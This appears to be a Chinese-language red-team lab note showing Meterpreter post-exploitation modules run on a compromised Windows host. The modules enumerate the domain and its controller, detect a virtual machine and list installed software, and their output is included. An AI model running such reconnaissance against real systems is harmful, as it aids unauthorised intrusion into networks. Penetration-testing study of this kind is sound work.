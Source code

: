 ### 枚举信息

域环境枚举：

```console
meterpreter > run post/windows/gather/enum_domain

[+] Domain FQDN: redteam.red
[+] Domain NetBIOS Name: REDTEAM
[+] Domain Controller: owa.redteam.red (IP: 10.10.10.8)
```

是否是虚拟机：

```console
meterpreter > run post/windows/gather/checkvm

[*] Checking if the target is a Virtual Machine ...
[+] This is a Hyper-V Virtual Machine
meterpreter >
```

获取安装软件信息：

```console
meterpreter > run post/windows/gather/enum_applications

[*] Enumerating applications installed on DESKTOP-TEST

Installed Applications
======================

 Name                                                                Version
 ----                                                                -------
 7-Zip 22.01 (x64)                                                   22.01
 Java 8 Update 202 (64-bit)                                          8.0.2020.8
 Java Auto Updater                                                   2.8.202.8
 Java SE Development Kit 8 Update 202 (64-bit)                       8.0.2020.8
 Microsoft Edge                                                      113.0.1774.42
 Microsoft Edge Update                                               1.3.175.27
 Microsoft Edge WebView2 Runtime                                     113.0.1774.42
 Microsoft OneDrive                                                  23.086.0423.0001
 Microsoft Update Health Tools                                       3.72.0.0
 Microsoft Visual C++ 2015-2019 Redistributable (x64) - 14.28.29913  14.28.29913.0
 Microsoft Visual C++ 2015-2019 Redistributable (x86) - 14.28.29913  14.28.29913.0
 Microsoft Visual C++ 2019 X64 Additional Runtime - 14.28.29913      14.28.29913
 Microsoft Visual C++ 2019 X64 Minimum Runtime - 14.28.29913         14.28.29913
 Microsoft Visual C++ 2019 X86 Additional Runtime - 14.28.29913      14.28.29913
 Microsoft Visual C++ 2019 X86 Minimum Runtime - 14.28.29913         14.28.29913
 VMware Tools                                                        11.3.5.18557794
 cosbrowser 2.10.1                                                   2.10.1


[+] Results stored in: /home/kali/.msf4/loot/20230516031837_default_192.168.70.129_host.application_629050.txt
meterpreter >
```
